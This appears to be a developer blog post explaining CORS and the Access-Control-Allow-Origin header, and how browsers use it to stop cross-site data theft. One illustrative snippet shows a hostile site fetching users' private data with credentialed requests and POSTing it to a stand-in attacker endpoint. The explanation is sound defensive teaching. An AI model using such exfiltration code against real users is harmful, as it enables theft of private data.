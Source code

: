 ```yaml
---
layout: blog
title: "CORS: Access-Control-Allow-Origin whut?!"
draft: false
date: 2023-11-21T17:45:00.000Z
date_updated: 2023-11-21T17:45:00.000Z
featured_image: /media/uploads/tanja-cotoaga-hvcXgf9rYKc-unsplash.jpg
page_bg: linear-gradient(to right,#c0a3c7,#3a60d3)
excerpt: CORS can seem like a super tricky and complex topic to wrap your head around, but in reality, it's not as hard as it appears.
---
```

## A Summary

CORS restrictions are a way of telling a user's browser that data should be protected from code running on a website, and asking the browser to place restrictions on that code to keep the data safe.

## Understanding the problem

*This section will explain the problem that CORS restrictions were invented to resolve. Feel free to skip this if you're happy that you understand why CORS is important.*

Imagine you have a website, let's call it `example.com`. You want to load some data from your API. How would you do it?

You might decide to do something like this.
```js
const data = await fetch('https://example.com/api/data');
```
This is great. Simple, and it works. Now let's imagine you add authentication. Let's say you implement some kind of API key. What would your fetch look like now?
```js
const myToken = '5Up3Rs3cr374PiK3Y';
const data = await fetch('https://example.com/api/data', {
  headers:  {
    Authorization: 'Bearer ' + myToken
  }
});
```
Cool. That works nicely. But then I decide to set up some more complex authentication and everyone has their own token. Maybe it's just easier to store that as a cookie? That's going to make it a lot easier, because now I can do this again:
```js
const data = await fetch('https://example.com/api/data');
```
My browser *automatically knows* to attach cookies from `example.com` to every request.

Great, so now I'm cooking with gas, I can fetch data from my API super easily.

But now I decide that for some reason I need to move my API to a different server, and that server is going to be hosted at `api.example`.

Now I can update my fetch to 
```js
const data = await fetch('https://api.example/api/data');
```
All good, users have to sign in again because the cookies from `example.com` don't get sent to `api.example`, but otherwise, everything is going smoothly.
Except wait, now someone has set up a site called `stolen-content.example`. I check their code, and they're just using my back-end for their own purposes!

*How to protect your users from credential theft will be the topic of another post in future, but for now, please just assume that your backend is configured properly to stop your users' authentication cookies leaking.*

But it gets worse, I find out that they're requesting data which is private for my users!:
```js
const data = await fetch('https://api.example/api/my_users_secret_data');
```
And my server is happily sending the data, because the user is sending a credentialled request!

Oh no, it's even worse than I thought... look at the next line:
```js
const data = await fetch('https://api.example/api/my_users_secret_data');
const json = await data.json();
fetch('https://stolen_content.example/save_secret_data', {
  method: POST,
  body: JSON.stringify(json)
});
```
They're  saving our users' data to their own database! How can we stop them?!

## CORS
Browser developers realised that the above problem is something that it's difficult for an application developer to stop. The browser is issuing a request with a legitimate cookie attached to it. How could the application know that it's being done with malicious intent? The real underlying problem here is that the end user, who is just trying to browse the internet is executing code on their browser that they don't understand, and that could be written by anyone.

So how do we protect users from the code that they're running? Enter CORS. Browser developers told application developers that they will implement some logic that application developers can rely on.  The application developer can tell the browser where they want to allow their requests to come from. This is the `Access-Control-Allow-Origin` header.

Here are some examples:
```
Access-Control-Allow-Origin: *
// This data can be requested by anyone
Access-Control-Allow-Origin: https://example.com
// This data should only be requested by people browsing https://example.com
```

Now, if a user is on `stolen-content.example` and their browser requests data from my API, then their request will fail with a CORS error, and the code to steal the users' secret data will fail.

*Note that all of this assumes that the user's browser properly respects the CORS header, and that we don't have to worry about the user using a compromised browser, and nor do we have to worry about the user trying to steal their own information. CORS only solves the problem of untrusted developers being allowed to run code on your computer through your browser, potentially with access to secret information.*

## Further reading
CORS actually has some other sensible protections (for example, you can't use `Access-Control-Allow-Origin: *` with a credentialled request, you can tell the browser not to share headers or not to allow specific methods, etc.). I'd recommend you start with [the MDN docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin).
